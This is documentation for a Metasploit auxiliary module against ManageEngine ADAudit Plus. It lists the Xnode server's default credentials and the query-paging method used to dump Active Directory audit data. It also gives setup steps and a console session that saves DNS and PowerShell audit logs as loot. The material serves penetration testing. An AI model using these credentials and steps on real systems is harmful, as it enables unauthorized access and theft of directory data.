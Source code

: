 ## Vulnerable Application
The module exploits default admin credentials for the DataEngine Xnode server in ADAudit Plus versions prior to 6.0.3 (6032)
in order to dump the contents of Xnode data repositories (tables), which may contain (a limited amount of) Active Directory information
including domain names, host names, usernames and SIDs.
The module can also be used against patched ADAudit Plus versions if the correct credentials are provided.

The module's `check` method attempts to authenticate to the remote Xnode server. The default credentials are `atom`:`chegan`.
If the credentials are valid, the module will perform a few requests to the Xnode server to obtain information like the Xnode version.
This is mostly done as a sanity check to ensure the Xnode server is working as expected.

Next, the module will iterate over a list of known Xnode data repositories and perform several requests for each in order to:
- Check if the data repository is configured on the target
- Obtain the total number of records in the data repository
- Obtain both the lowest and the highest value for the ID field (column)

If a given data repository exists, the module uses the above information to dump the data repository contents.
The maximum number of records returned for a search query is 10. To overcome this, the module performs series of requests
using the `dr:/dr_search` action,while specifying the ID values for each record.
For example, if the lowest observed ID value is 15 and the highest is 41, the module will perform three requests:
1. A request for the records with ID values 15 to 24
2. A request for the records with ID values 25 to 34
3. A request for the records with ID values 35 to 41
Empty records are ignored.

To view the raw Xnode requests and responses, enter `set VERBOSE true` before running the module.

By default, the module dumps only the data repositories (tables) and fields (columns) specified in the configuration file.
The configuration file can be set via the CONFIG_FILE option, but this is not required because a default config file exists.
The configuration file is then also used to add labels to the values sent by Xnode in response to a query.
This means that for every value in the Xnode response, the module will add the corresponding field name to the results
before writing those to a JSON file.

It is also possible to use the DUMP_ALL option to obtain all data in all known data repositories without specifying data field names.
However, in the latter case the data won't be labeled.

This module has been successfully tested against ManageEngine ADAudit Plus 6.0.3 (6031) running on Windows Server 2012 R2
and ADAudit Plus 6.0.7 (6076) running on Windows Server 2019.

## Installation Information
A free 30-day trial of ADAudit Plus can be downloaded [here](https://www.manageengine.com/products/active-directory-audit/download.html).
To install, just run the .exe and follow the instructions.
In order to configure the ManageEngine ADAudit Plus instance for testing, follow these steps:
- Open the Xnode config file at `<install_dir>\apps\dataengine-xnode\conf\dataengine-xnode.conf`
- Note down the username and password
- Insert the following line:
```
xnode.connector.accept_remote_request = true
```
To launch ADAudit Plus, run Command Prompt as administrator and run: `<install_dir>\bin\run.bat`

## Verification Steps
1. Start msfconsole
2. Do: `use auxiliary/gather/manageengine_adaudit_plus_xnode_enum`
3. Do: `set RHOSTS [IP]`
4. Do: `run`

## Options
### CONFIG_FILE
YAML File specifying the data repositories (tables) and fields (columns) to dump.
### DUMP_ALL
Dump all data from the available data repositories (tables). If true, CONFIG_FILE will be ignored.

## Scenarios
### ADAudit Plus 6.0.7 (6076) running on Windows Server 2019 (custom password)
```
msf6 > use auxiliary/gather/manageengine_adaudit_plus_xnode_enum
msf6 auxiliary(gather/manageengine_adaudit_plus_xnode_enum) > set rhosts 192.168.1.25
rhosts => 192.168.1.25
msf6 auxiliary(gather/manageengine_adaudit_plus_xnode_enum) > set password custom_password
password => custom_password
msf6 auxiliary(gather/manageengine_adaudit_plus_xnode_enum) > options 

Module options (auxiliary/gather/manageengine_adaudit_plus_xnode_enum):

   Name         Current Setting                                                                                                 Required  Description
   ----         ---------------                                                                                                 --------  -----------
   CONFIG_FILE  /root/github/manageengine/metasploit-framework/data/exploits/manageengine_xnode/CVE-2020-11532/adaudit_plus_xn  no        YAML file specifying the data repositories (tables) and fields (columns) to dump
                ode_conf.yaml
   DUMP_ALL     false                                                                                                           no        Dump all data from the available data repositories (tables). If true, CONFIG_FILE will be ignored.
   PASSWORD     custom_password                                                                                                 yes       Password used to authenticate to the Xnode server
   RHOSTS       192.168.1.25                                                                                                    yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT        29118                                                                                                           yes       The target port (TCP)
   USERNAME     atom                                                                                                            yes       Username used to authenticate to the Xnode server

msf6 auxiliary(gather/manageengine_adaudit_plus_xnode_enum) > run

[*] Running module against 192.168.1.25

[*] 192.168.1.25:29118 - Running automatic check ("set AutoCheck false" to disable)
[+] 192.168.1.25:29118 - The target appears to be vulnerable. Successfully authenticated to the Xnode server.
[*] 192.168.1.25:29118 - Obtained expected Xnode "de_healh" status: "GREEN".
[*] 192.168.1.25:29118 - Target is running Xnode version: "DataEngine-XNode 1.1.0 (1100)".
[*] 192.168.1.25:29118 - Obtained Xnode installation path: "C:\Program Files\ManageEngine\ADAudit Plus\apps\dataengine-xnode".
[*] 192.168.1.25:29118 - Data repository AdapFileAuditLog is empty.
[+] 192.168.1.25:29118 - Data repository AdapPowershellAuditLog contains 261 records with ID numbers between 1.0 and 303.0.
[*] 192.168.1.25:29118 - Data repository AdapSysMonAuditLog is empty.
[+] 192.168.1.25:29118 - Data repository AdapDNSAuditLog contains 722 records with ID numbers between 1.0 and 926.0.
[*] 192.168.1.25:29118 - Data repository AdapADReplicationAuditLog is empty.
[*] 192.168.1.25:29118 - Attempting to request 261 records for data repository AdapPowershellAuditLog between IDs 1 and 303. This could take a while...
[*] 192.168.1.25:29118 - Processed 25 queries (max 10 records per query) so far. The last queried record ID was 250. The max ID is 303...
[+] 192.168.1.25:29118 - Saving 261 records from the AdapPowershellAuditLog data repository to /root/.msf4/loot/20220610073738_default_192.168.1.25_xnode_powershell_099421.json
[*] 192.168.1.25:29118 - Attempting to request 722 records for data repository AdapDNSAuditLog between IDs 1 and 926. This could take a while...
[*] 192.168.1.25:29118 - Processed 25 queries (max 10 records per query) so far. The last queried record ID was 250. The max ID is 926...
[*] 192.168.1.25:29118 - Processed 50 queries (max 10 records per query) so far. The last queried record ID was 500. The max ID is 926...
[*] 192.168.1.25:29118 - Processed 75 queries (max 10 records per query) so far. The last queried record ID was 750. The max ID is 926...
[+] 192.168.1.25:29118 - Saving 722 records from the AdapDNSAuditLog data repository to /root/.msf4/loot/20220610073754_default_192.168.1.25_xnode_dnsaudit_775121.json
[*] Auxiliary module execution completed
msf6 auxiliary(gather/manageengine_adaudit_plus_xnode_enum) >
```
